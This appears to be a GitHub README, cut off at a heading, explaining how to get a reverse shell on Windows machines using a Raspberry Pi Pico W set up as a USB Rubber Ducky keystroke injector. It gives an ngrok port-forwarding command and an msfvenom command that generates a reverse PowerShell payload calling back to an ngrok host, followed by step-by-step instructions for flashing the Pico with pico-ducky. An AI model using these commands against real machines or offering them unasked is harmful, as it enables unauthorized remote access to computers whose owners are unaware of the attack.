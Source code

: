 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br><br>
For port forwarding
```ngrok tcp 8080```<br><br>
![ngrok](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok.png)<br><br>
![ngrok1](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok1.png)<br><br>
Windows reverse PowerShell payload<br>
```msfvenom -p cmd/windows/reverse_powershell lhost=0.tcp.in.ngrok.io lport=10448 > ayush.bat ```<br><br>
![msf](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/msf.png)
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
## Setting up an attacker server and a Ducky script
